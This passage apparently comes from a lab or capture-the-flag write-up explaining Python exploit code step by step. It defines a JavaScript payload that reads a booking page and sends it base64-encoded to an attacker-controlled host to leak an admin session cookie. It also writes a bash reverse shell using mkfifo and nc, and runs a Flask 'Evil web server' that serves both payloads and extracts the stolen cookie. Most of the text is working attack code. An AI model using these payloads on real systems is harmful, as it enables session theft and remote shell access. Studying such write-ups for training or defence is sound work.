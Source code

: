 Once we have the bookingID, we can prepare the two files named "x.js" and "rs" which we will serve from the web server. These are identical to how they were in the previous section except that we aren't hardcoding the booking ID, reverse shell IP address and reverse shell port. Instead, we substitute these with the values of the `bookingId`, `LHOST` and `LPORT` variables. Note that we use `"""` in Python to create strings spanning over multiple lines. This makes the code more readable and enables us to avoid the hurdle of substituting each newline with a newline character `\n` which we otherwise would have used in a string of one line to define line breaks.

{% highlight python linenos %}
#Initialize web server files
XJS = '''req1 = new XMLHttpRequest();
req1.open("GET","http://localhost:8000/vac/''' + bookingID + '''",false);
req1.send();
req2 = new XMLHttpRequest();
req2.open("GET","http://''' + LHOST + '''/leak?x="+btoa(req1.responseText),false);
req2.send();
'''

RS = '''#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ''' + LHOST + " " + LPORT + " >/tmp/f"
{% endhighlight %}

The next step is to configure the web server as performed below. We define the endpoints `/x.js`, `/rs` and `/leak` on line 3, 8 and 13. The first endpoint will respond with the `x.js` file together with the response header `Content-Type: application/javascript` which will inform the target host that this is JavaScript code. The second endpoint will respond with the `rs` file and the response header `Content-Type: application/octet-stream` which will inform the target host that this an octet stream. Finally, the `/leak` endpoint will be used to leak the admin user's session cookie.

{% highlight python linenos %}
app = flask.Flask("Evil web server")

@app.route('/x.js', methods=['GET'])
def xjs():
    print("[*] Sending JavaScript to leak the admin session cookie")
    return flask.Response(XJS, mimetype='application/javascript')

@app.route('/rs', methods=['GET'])
def rs():
    print("[*] Sending reverse shell payload")
    return flask.Response(RS, mimetype='application/octet-stream')

@app.route('/leak', methods=['GET'])
def leak():
    global cookieValue, wsLock
    b = base64.b64decode(flask.request.url.split("leak?x=")[1])
    m = re.search("""name=\"cookie\" value=\"connect.sid&#x3D;(.*?)\">""",str(b)) #Search base64 decoded string
    cookieValue = m.group(1)
    print("[*] Admin session cookie leaked: " + cookieValue)

    #Let the main thread know that we have succesfully captured the admin session cookie
    wsLock.release()

    return flask.Response("OK")

def startFlask():
    app.run(host=LHOST, port=80)

log = logging.getLogger('werkzeug')
log.setLevel(logging.ERROR)
click.echo = lambda a, *args, **styles : None
click.secho = lambda a, *args, **styles : None
thread2 = threading.Thread(target=startFlask)
thread2.start()
{% endhighlight %}
